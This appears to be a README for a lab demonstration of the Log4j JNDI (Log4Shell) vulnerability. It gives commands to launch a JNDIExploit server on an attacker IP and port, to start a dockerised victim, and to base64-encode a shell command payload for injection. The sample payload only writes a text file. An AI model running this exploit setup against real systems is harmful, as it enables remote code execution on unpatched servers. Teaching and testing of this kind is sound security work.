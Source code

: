 1. `cd Log4j/Demonstration/attacker_jndi`

2. `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 125.88.88.88 -p 8888`

---

1. `cd Log4j/Demonstration/victim`

2. `docker-compose up --build`

---
craft a payload that you want to send to the victim, and encode it into base64

1. open cmd
2. type `wsl` if on windows
3. e.g. if your payload is `echo 'This is a malware' > /tmp/malware.txt`, then type `echo “echo ‘This is a malware’ > /tmp/malware.txt” | base64` in the cmd 
4. copy the resulting base64 string: `ZWNobyAnVGhpcyBpcyBhIG1hbHdhcmUnID4gL3RtcC9tYWx3YXJlLnR4dAo=`

![img.png](img.png)

